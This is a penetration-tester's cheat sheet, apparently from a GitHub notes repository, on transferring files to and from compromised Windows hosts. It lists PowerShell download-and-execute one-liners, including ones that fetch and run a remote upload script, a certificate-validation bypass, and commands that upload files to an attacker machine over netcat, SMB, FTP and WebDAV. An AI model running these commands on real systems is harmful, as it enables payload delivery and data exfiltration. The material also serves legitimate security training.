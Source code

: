 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>🪟 Windows</strong></summary>
  <details>  
    <summary><strong>📥 Downloads</strong></summary>
      <details>
        <summary><strong>PowerShell Downloads</strong></summary>  
        <details> 
        <summary><strong>PowerShell DownloadFile Method</strong></summary>
          
  Sync  
  ```powershell
  (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
  ```
  Async  
  ```powershell
  (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
  ```
          
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Default  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Default  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```
  </details>
  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Default**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

<details>
    <summary><strong>FTP Downloads</strong></summary>  
    
  **Upload file**  
  
  Setting up a Python3 FTP Server in Linux
  ```bash
  sudo pip3 install pyftpdlib
  sudo python3 -m pyftpdlib --port 21
  ```

  **Option 1: Download file using Powershell**
  ```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
  ```

  **Option 2: Download file using CMD**  
  
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo GET <FILE> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  open <IP>
  USER anonymous
  GET <FILE>
  bye
  ```
  Back in CMD...
  ```cmd
  more <FILE>
  ```
---
  
  </details>
  </details>
  <details>  
    <summary><strong>📥 Uploads</strong></summary>  
    <details>  
  <summary><strong>PowerShell Uploads</strong></summary>  
  <details>  
  <summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  
    
  1. Encode File Using PowerShell 
  ```powershell
  [Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
  Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

  2. Decode Base64 String in Linux
  ```bash
  echo <BASE64 STRING> | base64 -d > <FILE>
  md5sum <FILE>
  ```
  </details>
  <details>  
  <summary><strong>PowerShell Web Uploads</strong></summary>  
    
  1. Installing a Configured WebServer with Upload in Linux
  ```bash
  pip3 install uploadserver
  python3 -m uploadserver
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
  ```

  </details>
  <details>  
  <summary><strong>PowerShell Base64 Web Upload</strong></summary>  
    
  1. We use Netcat to listen in on a port we specify and send the file as a POST request.
  ```bash
  nc -lvnp <PORT>
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  $b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
  Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
  ```
  3. We copy the output and use the base64 decode function to convert the base64 string into a file.
  ```bash
  echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
  ```
  </details>
  </details>
  <details> 
  <summary><strong>SMB Uploads</strong></summary>  

  1. Installing WebDav Python modules in Linux
  ```bash
  sudo pip3 install wsgidav cheroot
  sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
  ```
  2. Uploading Files using SMB in Windows
  ```cmd
  # DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
  dir \\192.168.49.128\DavWWWRoot
  copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
  copy <FILE PATH> \\<IP>\sharefolder\
  ```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
  </details>
  <details> 
  <summary><strong>FTP Uploads</strong></summary>  

  1. Start our FTP Server in Linux
  ```bash
  sudo python3 -m pyftpdlib --port 21 --write
  ```
  2. Upload the file in Windows

  **Option 1: Upload file using Powershell**
  ```cmd
  (New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
  ```
  **Option 2: Create a Command File for the FTP Client to Upload a File**
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo PUT <FILE PATH> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  USER anonymous
  PUT <FILE PATH>
  bye
  ```
  </details>
  </details>
</details>

---

<details>
  <summary><strong>🐧 Linux</strong></summary>
</details>

---
